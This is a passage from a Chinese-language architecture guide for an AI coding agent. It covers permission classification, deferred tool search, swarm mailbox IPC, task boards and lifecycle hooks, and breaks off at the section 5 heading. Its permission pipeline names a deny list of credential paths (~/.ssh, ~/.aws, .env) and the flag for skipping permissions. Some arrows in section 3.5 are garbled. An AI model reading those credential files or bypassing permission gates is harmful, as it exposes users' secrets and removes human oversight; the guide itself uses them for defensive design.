

# 工业级 AI 编程智能体架构深度剖析与前沿设计指南 —— 系统架构、核心机制与落地实现蓝图

> **引言**：本指南是一套面向企业级自主编程智能体（AI Coding Agent）的完整架构设计蓝图与工程实现规范。系统性梳理了包括**智能路由决策体系**、**多智能体蜂群协作（Swarm & Coordinator）**、**分层认知记忆与自愈活文档**、**AST 语法级安全沙箱与防御门禁**、**两级上下文压缩（Prompt Cache 友好）**、**全生命周期事件钩子**、**云端长考推演与工作区瞬移**、**双轨工具调度引擎**、**确定性测试网与无头评测治具**、**终端原生多模态流式交互**等全套工业级核心技术方案，并深度对照 2026 年最新前沿智能体设计，为构建下一代高性能、高可信的软件工程智能体提供直接参考对照的实施手册。

---

## 目录

1. [全局架构与系统拓扑](#1-全局架构与系统拓扑)
2. [智能路由体系：动态决策、模型分级与按需发现](#2-智能路由体系动态决策模型分级与按需发现)
   - 2.1 权限决策路由：Auto-Mode 与 YoloClassifier 智能门禁
   - 2.2 工具发现路由：Deferred Tools 与 ToolSearch 动态检索机制
   - 2.3 模型级联与降级路由：Fallback、Advisor 模式与能力适配
   - 2.4 推理深度与延时路由：Effort 等级与 Fast Mode
   - 2.5 测试期计算与思考链治理：ThinkingConfig、ultrathink 动态激活与自适应长考（Adaptive Thinking）
3. [多智能体协作体系：特化子 Agent、Coordinator 与 Swarm 蜂群](#3-多智能体协作体系特化子-agentcoordinator-与-swarm-蜂群)
   - 3.1 特化子 Agent 的隔离设计模式（Explore / Plan / Verification）
   - 3.2 对抗性验证提示词工程：攻克 Agent "假阳性" 与 "逃避验证"
   - 3.3 Coordinator 协调者模式：宏观任务分解与单向上下文投递
   - 3.4 Swarm（蜂群）多智能体架构：拓扑结构与生命周期
   - 3.5 进程间通信协议：基于原子文件锁的 Mailbox IPC 系统
   - 3.6 共享任务看板：状态机原子流转与主动认领机制
   - 3.7 分布式权限穿透：多 Agent 并发场景下的聚合审批设计
   - 3.8 物理隔离与运行后端：Tmux 窗格与 AsyncLocalStorage 隔离
4. [生命周期钩子与交互式诱导协议（Hooks & Elicitation Protocol）](#4-生命周期钩子与交互式诱导协议hooks--elicitation-protocol)
   - 4.1 20+ 类细粒度生命周期事件矩阵
   - 4.2 动态参数篡改与上下文注入（`updatedInput` & `additionalContext`）
   - 4.3 交互式诱导协议（Prompt Elicitation Protocol）
   - 4.4 文件系统响应式监听（`watchPaths` 与 `FileChanged`）
5. [规划模式与 Ultraplan 深度推演（Plan Mode V2 & Cloud Offloading）](#5-规划模式与-ultraplan-深度推演plan-mode-v2--cloud-offloading)
   - 5.1 Plan Mode V2：强制只看不写的架构设计沙箱
   - 5.2 Ultraplan：基于 Opus 4.6 的 30 分钟云端长考推演
   - 5.3 规划状态轮询与双向同步机制
6. [云端运行时（CCR）、会话瞬移与环境安全（Teleportation & Security Proxy）](#6-云端运行时ccr会话瞬移与环境安全teleportation--security-proxy)
   - 6.1 Git Bundle 跨机瞬移：免推送同步未提交工作区
   - 6.2 容器内存反转储与网络防投毒（Upstream Proxy 与 `prctl` 防护）
   - 6.3 SSH 零配置透明隧道（`claude ssh` 凭据反向穿透）
7. [知识库与多层级记忆体系：从静态规则、动态文档到仿生睡眠巩固](#7-知识库与多层级记忆体系从静态规则动态文档到仿生睡眠巩固)
   - 7.1 四层记忆继承与优先级加载算法（CLAUDE.md 与 Rules 规则作用域）
   - 7.2 长期记忆持久化与知识库分类体系（MEMORY.md 与 4 维分类学约束）
   - 7.3 知识库智能检索：基于元数据驱动的 Semantic Metadata RAG（findRelevantMemories）
   - 7.4 活文档系统：Magic Docs 常驻自愈型代码知识库
   - 7.5 外部代码索引感知系统（Code Indexing Tool Detector）
   - 7.6 AutoDream 机制：基于空闲锁与 Fork Agent 的仿生记忆巩固
   - 7.7 用户个人档案与客户端绑定体系：设备指纹、OAuth 组织凭据、本地私有隔离（CLAUDE.local.md）与安全存储
8. [工具与深度防御安全体系：兼顾执行力与确定性](#8-工具与深度防御安全体系兼顾执行力与确定性)
   - 8.1 工具抽象契约与流式执行器（StreamingToolExecutor）
   - 8.2 BashTool：23 维度 AST 语法树审计与沙箱拦截
   - 8.3 FileEditTool：精确文本替换与 "先读后写" 状态机约束
   - 8.4 LSPTool：语言服务器协议与 IDE 级代码智能
   - 8.5 EnterWorktreeTool：Git Worktree 物理隔离沙箱
   - 8.6 浏览器视界与 Web 运行时闭环：Claude in Chrome 原生宿主与 MCP 深度桥接
   - 8.7 技能自进化生态与微应用体系：SKILL.md 契约、动态发现与 Skillify 自动固化
   - 8.8 IDE 深度双向穿透协议：反向 JSON-RPC 桥接、实时选区同步与 Diff 联动
   - 8.9 本机文件读写与 I/O 深度优化工程（Blocked Devices、未修改存根、原子落盘与并发防冲突）
   - 8.10 第三方代码依赖生态治理：生态自动探测、清单驱动安装、本地镜像源继承与供应链安全门禁
9. [上下文窗口治理与两级压缩系统（Token Engineering）](#9-上下文窗口治理与两级压缩系统token-engineering)
   - 9.1 Token 估算模型与 4/3 保守乘数
   - 9.2 Micro-Compaction（微压缩）：时间触发与缓存编辑（Cache Edits API）
   - 9.3 Auto-Compaction（全局自动压缩）：两阶段草稿总结与熔断器
   - 9.4 上下文坍缩（Context Collapse）与 Prompt Cache 前缀保护
10. [提示词工程与动态缓存装配体系（Prompt Engineering & Caching Architecture）](#10-提示词工程与动态缓存装配体系prompt-engineering--caching-architecture)
    - 10.1 动静分离与动态缓存分割线（`__SYSTEM_PROMPT_DYNAMIC_BOUNDARY__`）
    - 10.2 两级 Section 注册机制与缓存击穿防护（`systemPromptSection` 与 `DANGEROUS_`）
    - 10.3 心理学调优与模型对抗性防御提示词（反过度工程、反假阳性对冲、防投毒）
    - 10.4 角色隔离与系统标签协议（`<system-reminder>` 与 `<task-notification>`）
    - 10.5 模型认知对齐与结构化标记语言：Anthropic XML 标签体系 vs. Hermes ChatML vs. OpenAI Tool Calls
11. [工作流编排与双轨执行调度引擎（Workflow Orchestration & Task Scheduling）](#11-工作流编排与双轨执行调度引擎workflow-orchestration--task-scheduling)
    - 11.1 双轨工具编排算法：只读并发与写操作串行屏障（`partitionToolCalls`）
    - 11.2 上下文确定性原子提交队列（`queuedContextModifiers`）
    - 11.3 Coordinator 协调者编排流水线与 Worker 上下文复用（Context Re-engagement）
    - 11.4 任务状态机引擎与分级优先级队列（Task Lifecycle & MessageQueueManager）
12. [评测治具、确定性测试网与运行时脚手架（Harness, VCR & Observability）](#12-评测治具确定性测试网与运行时脚手架harness-vcr--observability)
    - 12.1 VCR 确定性录制与重放 Harness（输入脱水与跨机确定性哈希）
    - 12.2 SDK 测试治具与无头运行模式（Headless Mode Harness）
    - 12.3 运行时工具安全执行治具（StreamingToolExecutor）
    - 12.4 毫秒级冷启动与全链路性能分析仪（Startup & Query Profiler）
13. [终端交互工程与极客级体验设计（TUI with React & Ink）](#13-终端交互工程与极客级体验设计tui-with-react--ink)
    - 13.1 纯 TypeScript 移植的 Yoga Flexbox 布局引擎
    - 13.2 终端虚拟列表（VirtualMessageList）与零卡顿渲染
    - 13.3 置顶粘性提示词（Sticky Prompt）与终端渐进式搜索（Incsearch）
    - 13.4 内置电子宠物（Buddy / Companion）确定性 PRNG 彩蛋
    - 13.5 终端语音多模态流式输入：实时音频缓冲与 VAD 驱动的语音编程
14. [对新一代 AI Coding Agent 开发的系统级工程借鉴](#14-对新一代-ai-coding-agent-开发的系统级工程借鉴)
15. [前沿对照与架构演化路线图（SOTA Gap Analysis & Evolution Roadmap）](#15-前沿对照与架构演化路线图sota-gap-analysis--evolution-roadmap)
    - 15.1 上下文治理与压缩：从“字符串占位替换”演进为“语义图谱与 KV-Cache 原生切片”
    - 15.2 多智能体协作：从“磁盘文件轮询”演进为“内存事件总线与 CRDT 任务网络”
    - 15.3 代码修改范式：从“纯文本唯一子串替换”演进为“AST 语义节点重构与容错 Patch”
    - 15.4 执行安全与沙箱：从“应用层正则/AST 防守”演进为“内核级微虚拟机与 eBPF/Landlock”
    - 15.5 规划推演与自我修复：从“单向线性 Plan”演进为“蒙特卡洛树搜索（MCTS）与局部自愈”
    - 15.6 开发者交互与调试生态：从“纯终端文本展示”演进为“双向调试器集成与交互式画布”
    - 15.7 知识库与代码智能检索：从“纯文本元数据匹配与规则启发”演进为“SCIP/Tree-sitter 代码依赖图谱、分层混合检索与 GraphRAG”
    - 15.8 提示词工程：从“人工打磨规则与静态分界”演进为“DSPy 自动编译调优与硬件级 KV-Cache 固化（Prefill Pinning）”
    - 15.9 工作流编排：从“双轨单循环与轮询任务”演进为“Durable Execution 持久化工作流、动态有向无环图（DAG）与事务性快照回滚”
    - 15.10 评测治具与基准测试（Harness）：从“文件哈希 VCR”演进为“微虚拟机快照复原、SWE-bench 自动化验证矩阵与 LLM-as-a-Judge 语义裁决”
    - 15.11 测试期计算扩展：从“启发式 ultrathink 关键词触发”演进为“MCTS 搜索树、PRM 过程奖励模型与自适应思考扩展（Test-Time Compute Scaling）”
    - 15.12 浏览器与环境交互：从“基于 Native Host 的受控 Chrome 插件”演进为“原生视觉接管（Computer Use）、无头渲染引擎与 CDP 深度插桩”
    - 15.13 技能生态与自进化：从“静态 SKILL.md 模板与半自动 Skillify”演进为“自省强化学习、动态能力编译与自治技能网络（Self-Evolving Agentic Networks）”
    - 15.14 多模态交互范式：从“按键推流 STT 语音转文本”演进为“全双工实时端到端音频多模态（Native Audio Omni-Modal）”
    - 15.15 模型格式与对齐层：从“应用层人工 XML 协议”演进为“微调专有特殊标记（Special Tokens）与编译级文法约束”
    - 15.16 IDE 与开发者生态：从“外部轮询/反向 RPC 桥接”演进为“深度内核集成与影子工作区（Shadow Workspace / In-Process Flow）”
    - 15.17 本机文件 I/O 与工作区状态同步：从“物理文件原子覆盖与存根校验”演进为“虚拟文件系统（VFS）、CRDT 缓冲区与零拷贝快照”
    - 15.18 个人记忆与多租户身份治理：从“单机本地 Markdown 档案与静态 DeviceID”演进为“云端加密认知画像、跨设备同步与零信任身份网格（Zero-Trust Identity Mesh）”
    - 15.19 依赖管理与代码运行环境：从“宿主进程包管理器直接安装与人工授权”演进为“声明式沙箱环境（Nix / Devcontainer / WASM）、确定性依赖锁与供应链漏洞动态热修”
    - 15.20 总结对比矩阵与演进收益
16. [工业级实施白皮书与模式速查](#16-工业级-ai-coding-agent-落地重构实施白皮书与模式速查)

---

## 1. 全局架构与系统拓扑

Claude Code 采用了分层解耦的反应式架构。自终端用户输入至底层模型调用，整体数据流与组件交互如下图所示：

```mermaid
graph TB
    subgraph TUI_Layer ["终端展示层 (React + Ink)"]
        Terminal[终端输入 / TUI] --> REPL["REPL 调度器 (REPL Dispatcher)"]
        REPL --> FullscreenLayout["全屏布局 (Yoga Flexbox Layout Engine)"]
        REPL --> VirtualList["虚拟消息列表 (Virtual Message List)"]
        REPL --> DiffViewer["结构化差异渲染 (Structured Diff Viewer)"]
    end

    subgraph Core_Engine ["核心编排引擎 (Core Engine)"]
        REPL --> QueryEngine["QueryEngine (会话生命周期与环境初始化)"]
        QueryEngine --> QueryLoop["CoreQueryLoop (Agent 核心决策与流式调度循环)"]
        QueryLoop --> MessageQueue["MessageQueueManager (消息分级优先级调度队列)"]
        QueryLoop --> HookManager["LifecycleHookManager (20+ 生命周期事件总线)"]
    end

    subgraph Routing_System ["智能路由子系统 (Intelligent Routing)"]
        QueryLoop --> AutoMode["AutoModeRouter (Auto-Mode 权限智能分类门禁)"]
        QueryLoop --> ToolSearch["ToolSearchRouter (Deferred Tools 动态按需检索)"]
        QueryLoop --> ModelRouter["ModelAdvisorRouter (模型降级与顾问咨询路由)"]
        QueryLoop --> EffortRouter["EffortRouter (推理深度与 Fast Mode 延时路由)"]
    end

    subgraph Agent_Subsystem ["多智能体协作子系统 (Multi-Agent Swarm)"]
        QueryLoop --> AgentTool["AgentTool (内置/自定义子智能体)"]
        AgentTool --> ExploreAgent["Explore Agent (只读快查/Haiku)"]
        AgentTool --> PlanAgent["Plan Agent (架构设计)"]
        AgentTool --> VerificationAgent["Verification Agent (对抗性校验)"]
        QueryLoop --> SwarmManager["SwarmManager (多智能体蜂群协同中枢)"]
        SwarmManager --> TeammateMailbox["TeammateMailbox (进程间通信原子文件邮箱 IPC)"]
        SwarmManager --> PermSync["PermissionSync (多 Agent 分布式权限聚合审批)"]
        SwarmManager --> TaskBoard["SharedTaskBoard (共享任务看板与依赖状态机)"]
    end

    subgraph Cloud_Teleport ["云端推演与会话瞬移 (CCR & Ultraplan)"]
        QueryLoop --> Ultraplan["UltraplanEngine (30 分钟后台云端长考推演)"]
        Ultraplan --> GitBundle["GitBundleTeleporter (未提交改动免推送瞬移打包)"]
        Ultraplan --> CCRBridge["CCRBridge (云端受控容器运行时双向桥接)"]
        CCRBridge --> UpstreamProxy["UpstreamSecurityProxy (上游请求穿透与防投毒代理)"]
    end

    subgraph Memory_Subsystem ["上下文与记忆子系统"]
        QueryEngine --> MemoryHierarchy["MemoryHierarchy (四层规则优先级层叠加载器)"]
        QueryEngine --> AutoMemory["AutoMemoryStore (4 维分类学长期记忆持久化)"]
        QueryEngine --> AutoDream["AutoDreamEngine (仿生空闲睡眠记忆提炼与重写)"]
    end

    subgraph Tool_Security ["工具与安全子系统 (40+ Tools)"]
        QueryLoop --> StreamingExecutor["StreamingToolExecutor (JSONSchema 流式早期校验与执行器)"]
        StreamingExecutor --> BashTool["BashTool (23 维度 AST 语法树安全审计沙箱)"]
        StreamingExecutor --> FileEditTool["FileEditTool (唯一字符串精准替换与先读后写断言)"]
        StreamingExecutor --> LSPTool["LSPTool (Language Server 编译器级语义符号检索)"]
        StreamingExecutor --> WorktreeTool["EnterWorktreeTool (Git Worktree 物理目录隔离沙箱)"]
    end

    subgraph Compaction_Subsystem ["Token 治理与压缩子系统"]
        QueryLoop --> MicroCompact["MicroCompactor (微压缩: 淘汰旧工具输出与 Cache-Edits)"]
        QueryLoop --> AutoCompact["AutoCompactor (全局自动压缩: 两阶段草稿总结与熔断器)"]
    end

    subgraph Observability_Layer ["可观测性与测试网 (Observability & Testing)"]
        QueryLoop --> VCR["DeterministicVCRHarness (输入脱水与跨机确定性网络录制回放)"]
        QueryEngine --> StartupProfiler["StartupProfiler (毫秒级全链路启动与执行性能探针)"]
    end
```



---

## 2. 智能路由体系：动态决策、模型分级与按需发现

### 2.1 权限决策路由：Auto-Mode 与 YoloClassifier 智能门禁

* **业务痛点与设计目标**：
  在自主编码智能体（Autonomous Coding Agent）开发中，权限设计面临经典的“二律背反”困局：若对每个工具调用均弹出终端确认卡片，人机交互会被严重打断，沦为“人工点确认机器”；若全局开启免审批（如 `--dangerously-skip-permissions`），一旦模型遭遇提示词注入或死循环，可能直接删除宿主根目录或外泄密钥。Auto-Mode 旨在通过多层次防御门禁，在 **90% 的安全操作中实现零打扰自动化**，在 **10% 的高危边界处提供确定性拦截**。

* **标准接口与类型契约（TypeScript Schema）**：
  ```typescript
  export type YoloDecision = 'allow' | 'soft_deny' | 'hard_deny';

  export interface YoloEvaluationInput {
    toolName: string;
    input: Record<string, unknown>;
    cwd: string;
    conversationHistorySummary: string;
    userIntent: string;
  }

  export interface ClassifierDecisionResult {
    decision: YoloDecision;
    reason: string;
    riskScore: number; // 0.0 (绝对无害) ~ 1.0 (极度危险)
    suggestedAlternative?: string;
  }
  ```

* **三级判定流水线算法（Three-Stage Pipeline）**：
  1. **阶段 1：静态无副作用白名单快速短路（Static Fast-Path，0ms 延时）**：
     * 系统硬编码白名单集合 `SAFE_YOLO_ALLOWLISTED_TOOLS`，包含：`FileRead`、`Grep`、`Glob`、`LSP`、`TaskList`、`TaskGet`、`ToolSearch` 等；
     * 凡是仅执行“读操作”且不改变外部环境状态的工具，直接代码级判定 `allow`，不发起任何模型调用。
  2. **阶段 2：工作区相对路径边界快检（Workspace Path Confinement）**：
     * 对于写操作工具（如 `FileEdit`、`FileWrite`），校验目标路径是否完全收敛于当前工作目录 `cwd` 之内；
     * 若包含父级路径遍历符 `../`、跨卷操作，或命中敏感路径黑名单（如 `.git/`、`.env`、`~/.ssh`、`~/.aws`），立即阻断快路，转入下一阶段。
  3. **阶段 3：轻量小模型旁路安全分类器（Side-Query Classifier）**：
     * 当遇到复杂的 `Bash` 命令或越界写操作时，向轻量级模型（如 Haiku / Flash）发起带专用安全 Prompt 的侧向查询（`sideQuery`）；
     * 分类器综合考量“用户当前意图与该操作的因果合理性”，输出裁决结果：
       * `allow`：操作完全在用户指令意图预期内（如用户要求运行构建，触发了 `pnpm build`）；
       * `soft_deny`：操作虽合理但具有不可逆副作用（如 `git push --force` 或修改核心配置），降级为向人类弹出审批卡片；
       * `hard_deny`：操作脱离用户意图且具有攻击特征（如尝试向未知 IP 发送请求或删除系统目录），硬性阻断并向模型报错。

### 2.2 工具发现路由：Deferred Tools 与 ToolSearch 动态检索机制
* **痛点**：接入 50+ 个 MCP 工具后，将所有 JSONSchema 一次性注入 Prompt 会瞬间消耗几万 Token，并严重稀释模型对核心工具的选择准确度。
* **实现机制**（工具检索路由 `ToolSearchRouter` 与 工具检索工具 `ToolSearchTool`）：
  * **延迟加载标记（`shouldDefer: true`）**：所有 MCP 工具与专用工具初始只以纯名称暴露在 `<available-deferred-tools>` 列表中，**不提供参数 Schema**。
  * **动态检索激活**：模型产生意图时调用 `ToolSearchTool`，支持三种检索形式：
    * 精确拉取：`select:Read,Edit,Grep`
    * 关键词模糊搜索：`notebook jupyter`
    * 强制前缀匹配：`+slack send`
  * 系统实时把匹配工具的完整 JSONSchema 动态拼接到下一轮上下文（`<functions>` 块），实现 **按需即用、零闲置冗余**。

### 2.3 模型级联与降级路由：Fallback、Advisor 模式与能力适配
* **模型级联（Model Cascading）**：代码搜寻任务路由给速度极快的 `haiku` 模型；主控代码合成与决策路由给 `sonnet`。
* **顾问模式（顾问路由系统 `AdvisorSystem`）**：主模型（Sonnet）在遇到棘手难题时，可发起 `advisor` 服务端工具调用，向更顶级的顾问模型（如 Opus 4.6）咨询高阶解法，攻克后继续自主执行。
* **过载自动熔断降级（重试调度器 `WithRetryAdapter`）**：当主模型触发 HTTP 529（Overloaded）或组织配额超限时，自动无缝路由至 `--fallback-model`。

### 2.4 推理深度与延时路由：Effort 等级与 Fast Mode
* **Effort 思考预算路由（推理深度控制器 `EffortController`）**：支持 `low`、`medium`、`high`、`max` 四档 Effort 配置。系统根据任务设定动态路由模型的思考预算（Thinking Token Budget）与最大采样轮次。
* **Fast Mode 路由（快速模式模块 `FastModeSwitch`）**：针对实时问答或简单交互，旁路复杂的背景预取与深度思考链，路由至极简流式输出通道。

### 2.5 测试期计算与思考链治理：ThinkingConfig、ultrathink 动态激活与自适应长考（Adaptive Thinking）
在 思考链控制器 `ThinkingController` 与 思考深度控制器 `EffortController` 中，构建了测试期计算（Test-Time Compute）治理架构：
* **三模态思考配置（`ThinkingConfig`）**：
  ```typescript
  export type ThinkingConfig =
    | { type: 'adaptive' }
    | { type: 'enabled'; budgetTokens: number }
    | { type: 'disabled' }
  ```
  * `adaptive`（自适应深度）：模型根据输入问题的技术复杂度自动伸缩内部思考步数；源码中明确规定：`opus-4-6` 与 `sonnet-4-6` 必须全量默认开启自适应思考，严禁在第一方环境中关闭，防止模型推理能力退化；
  * `enabled`（固定预算）：由 `MAX_THINKING_TOKENS` 或配置指定固定的思考 Token 配额（如 2048、8192 或更高）；
  * `disabled`（快速直答）：关闭思考链，压到极致的首字延迟。
* **`ultrathink` 动态关键词触发机制**：
  * 系统内置 `hasUltrathinkKeyword` 扫描器（`/\bultrathink\b/i`）与 `findThinkingTriggerPositions` 字符位置探测；
  * 一旦开发者在提问中包含 `ultrathink`，系统在终端触发专属彩虹动效（Rainbow Shimmer Effect），同时强制解锁测试期深度思考上限，使模型对超复杂架构与并发死锁进入长考攻坚状态。

---

## 3. 多智能体协作体系：特化子 Agent、Coordinator 与 Swarm 蜂群

### 3.1 特化子 Agent 的隔离设计模式

在多智能体系统工程中，全能型（General-Purpose）智能体往往表现出严重的注意力涣散、上下文膨胀以及对安全权限的不可控性。系统采用了**职责高度特化的子智能体隔离模式**，将代码探索、架构规划与破坏性验证分配给相互制约的独立 Agent 实体：

| 特化智能体角色 | 推荐模型基座 | 工具白名单约束 | 权限与副作用隔离 | 上下文隔离（`omitClaudeMd`） | 核心输出与验收标准 |
| :--- | :--- | :--- | :--- | :--- | :--- |
| **`ExploreAgent`**（代码探索专家） | Fast Tier (如 Haiku / Flash) | `FileRead`, `Grep`, `Glob`, `LSP` | **只读权限**（严禁任何写工具或 Shell） | **强制 `true`**（剔除业务规则降噪） | 代码定义与引用位置、调用链路、依赖拓扑 |
| **`PlanAgent`**（架构设计专家） | Flagship Tier (如 Sonnet / Opus) | `FileRead`, `Grep`, `LSP`, `AskUserQuestion` | **只读权限**（禁止直接修改代码） | **`false`**（必须严格遵守代码库规则） | 线性分步推演计划、重构风险评估、`Critical Files` 清单 |
| **`VerificationAgent`**（对抗性检验专家） | Flagship Tier (如 Sonnet) | `Bash`, `FileRead`, `Grep`, `LSP` | **受控执行权限**（仅限跑测试/语法分析） | **`false`**（按项目现有测试标准校验） | 结构化对抗探测报告、复现用例、边界缺陷证据 |

* **上下文隔离降噪哲学（`omitClaudeMd: true`）**：
  在代码探索场景下，项目长达数百行的 `CLAUDE.md` 往往包含编码规范、代码风格、分支合并指南等。这些内容对于“找出某个函数定义在哪个文件”毫无帮助，反而占用 2k+ Token 且可能误导模型注意力。设置 `omitClaudeMd: true`，使只读子 Agent 以最纯净的指令前缀高速运转。

### 3.2 对抗性验证提示词工程：攻克 Agent "假阳性" 与 "逃避验证"
在 对抗性验证智能体 `VerificationAgent` 中，官方展现了如何用严苛的 Prompt 打消模型的侥幸心理：
* 明确警示模型的两大劣根性：**验证逃避（Verification Avoidance）** 与 **被前 80% 迷惑（Seduced by the first 80%）**。
* 强制要求测试报告中必须包含至少一项“对抗性探测”（并发竞态、极大极小边界值、幂等性重复调用、孤儿数据操作）的实测证据，否则报告直接视为无效。

### 3.3 Coordinator 协调者模式
在 协调者编排流水线 `CoordinatorPipeline` 中，协调者模型负责顶层拆解，不直接修改业务代码，它的主要工具是 `AgentTool`、`SendMessageTool`、`SyntheticOutputTool` 以及任务管理套件。

### 3.4 Swarm（蜂群）多智能体架构
Swarm 实现了团队级并行化协作（蜂群协调子系统 `SwarmManager`）：
* 由 1 个 `team-lead` 和 $N$ 个并行 `teammate` 组成的混合网络拓扑。
* 通过 `TeamCreateTool` 创建团队，生成 `~/.claude/teams/{team_name}/team.json`，为每个 Teammate 分配全局唯一 ID 与色彩标识。

### 3.5 进程间通信协议：基于原子文件锁的 Mailbox IPC 系统

为保证多智能体可以在无外部独立 Broker（如 Redis/RabbitMQ）的本地单机环境下高可靠运行，系统设计了基于文件系统信箱的轻量进程间通信（IPC）机制：

* **信箱物理拓扑与命名规范**：
  信箱根目录位于 `~/.claude/teams/{team_name}/`：
  * 每个 Agent 拥有唯一的单向收件箱：`inboxes/{agent_name}.json`；
  * 共享状态与元数据记录于：`team.json`（团队成员花名册与 Leader 分配）。
* **标准通信载荷契约（TypeScript Schema）**：
  ```typescript
  export type MailboxMessageType =
    | 'task_assignment'        // 任务派发
    | 'task_progress'          // 进度回报
    | 'permission_request'     // 权限审批上报
    | 'permission_response'    // 权限裁决回执
    | 'shutdown_request'       // 优雅停机指令
    | 'shutdown_response'      // 停机敲定回执
    | 'direct_message';        // Agent 间直接协商

  export interface MailboxMessage {
    id: string;                // UUIDv4 消息唯一标识
    from: string;              // 发送者 Agent 唯一标识
    to: string;                // 接收者 Agent 唯一标识
    timestamp: number;         // 毫秒级时间戳
    type: MailboxMessageType;  // 控制原语类型
    payload: Record<string, unknown>; // 结构化载荷
  }

  export interface InboxState {
    messages: MailboxMessage[];
    lastReadTimestamp: number;
  }
  ```
* **并发写安全与文件排他锁算法（Atomic Lockfile Protocol）**：
  * 为防止两个并发进程同时向同一信箱追加消息引发数据丢失，消息投递前必须先获取排他锁 `inboxes/{agent_name}.lock`；
  * 锁协议配置：采用指数退避重试，最大重试次数 `retries = 10`，最小超时 `minTimeout = 5ms`，最大单次超时 `maxTimeout = 100ms`；
  * 写入采用“读出现有消息数组 $
ightarrow$ 追加新消息 $
ightarrow$ 原子写入新文件 $
ightarrow$ 释放锁”的闭环事务。

### 3.6 共享任务看板：状态机原子流转与主动认领机制

多 Agent 协同的核心不在于繁琐的层级汇报，而在于**基于共享数据看板的无中心化自驱动认领（Decentralized Work Stealing）**：

* **任务生命周期状态机与数据契约**：
  ```typescript
  export type TaskStatus = 'pending' | 'in_progress' | 'completed' | 'failed' | 'blocked';

  export interface TaskRecord {
    id: string;               // 任务标识符 (如 "task_001")
    title: string;            // 任务摘要
    description: string;      // 详尽实施要求
    owner?: string;           // 认领此任务的 Agent 标识符
    status: TaskStatus;       // 当前状态
    blockedBy: string[];      // 前置依赖任务 ID 列表 (DAG 入度)
    blocks: string[];         // 后置解封任务 ID 列表 (DAG 出度)
    retryCount: number;       // 失败重试次数
    outputResult?: string;    // 完成产出摘要或 Git Patch 指针
    updatedAt: number;
  }
  ```
* **有向无环依赖图（DAG）自动解封算法**：
  1. **任务入队**：Leader 规划分解任务并录入看板，设置任务前置依赖 `blockedBy: ["task_001"]`，状态标记为 `blocked`；
  2. **空闲主动探测（Work Stealing）**：Worker 在完成上一任务后，调用 `TaskListTool` 过滤条件为 `status === 'pending' && blockedBy.length === 0`；
  3. **原子抢占认领**：Worker 发起 `TaskUpdateTool(id, { owner: myAgentName, status: 'in_progress' })`。看板在文件锁保护下核验若当前状态仍为 `pending` 则认领成功，否则告知已被抢占；
  4. **级联解封触发（Cascade Unblock）**：当 Worker 提交 `completed` 时，看板自动遍历其 `blocks` 列表中的后置任务，从其 `blockedBy` 集合中剔除已完成任务；一旦某任务的入度降为 0，状态立即从 `blocked` 跃迁为 `pending`，激活下一棒 Worker 认领。

### 3.7 分布式权限穿透：多 Agent 并发场景下的聚合审批设计
在 权限同步模块 `PermissionSync` 中：
* 后台 Worker 触发高风险工具调用时**不抢占控制台**，而是将命令构造为 `SwarmPermissionRequest` 投递至 `team-lead.json` 信箱。
* Team Lead 在用户主屏幕上弹出聚合审批卡片，用户决策后回写至 Worker 信箱，Worker 收到回执解除阻塞。
* **彻底解决了多 Agent 并发人机共驾的屏幕撕裂难题。**

### 3.8 物理隔离与运行后端：Tmux 窗格与 AsyncLocalStorage 隔离
在 多智能体生成器 `SpawnMultiAgent` 中提供双后端支持：
* 有 `tmux` 时自动开辟独立虚拟分屏，配置带名字与颜色的状态边框（`enablePaneBorderStatus`）；
* 无 `tmux` 时，通过 Node.js 原生 `AsyncLocalStorage`（`runWithTeammateContext()`）在进程内隔离上下文变量。

---

## 4. 生命周期钩子与交互式诱导协议（Hooks & Elicitation Protocol）

在 生命周期钩子管理总线 `HookManager`（159 KB）与 钩子类型契约 `HookTypes` 中，构建了工业级 Agent 必须具备的系统级扩展能力。

### 4.1 20+ 类细粒度生命周期事件矩阵
系统覆盖了从会话启动、工具调用、压缩、权限到代码变更的全生命周期：
* `PreToolUse` / `PostToolUse` / `PostToolUseFailure`：工具执行前中后切面；
* `UserPromptSubmit`：用户提交提示词时触发，可用于 Prompt 安全注入或格式清洗；
* `SessionStart` / `SessionEnd` / `Setup`：环境初始化与脚手架验证；
* `SubagentStart` / `SubagentStop` / `TeammateIdle`：多智能体协作状态感知；
* `CwdChanged` / `FileChanged`：目录切换与工作区文件变更；
* `WorktreeCreate` / `WorktreeRemove`：Git 隔离环境构建与清理；
* `PreCompact` / `PostCompact`：会话压缩事件切面。

### 4.2 动态参数篡改与上下文注入
钩子并非简单的只读观察者，它拥有强大的**运行时拦截与篡改权**（`hookJSONOutputSchema`）：
* `updatedInput`：在前置钩子中，可以直接动态改写即将传入工具的参数；
* `additionalContext`：钩子可以在工具执行后向会话追加背景上下文；
* `permissionDecision`: 钩子可直接输出 `approve` 或 `block`，实现企业合规系统的程序化准入。

### 4.3 交互式诱导协议（Prompt Elicitation Protocol）
在 钩子类型契约 `HookTypes` 中定义了 `promptRequestSchema`。钩子在执行过程中若遇到歧义，可以主动向宿主发出 `prompt` 请求，终端主线程接收后暂停当前流水线，弹出可供用户挑选的交互式单选/多选菜单，实现真正的**受控渐进式披露（Controlled Progressive Disclosure）**。

### 4.4 文件系统响应式监听（`watchPaths` 与 `FileChanged`）
在 `SessionStart` 或 `CwdChanged` 钩子返回时，可以声明 `watchPaths: string[]`。核心引擎自动启动本地文件监控。当外部文件变动时，系统自动触发 `FileChanged` 钩子向 Agent 投递通知。

---

## 5. 规划模式与 Ultraplan 深度推演（Plan Mode V2 & Cloud Offloading）

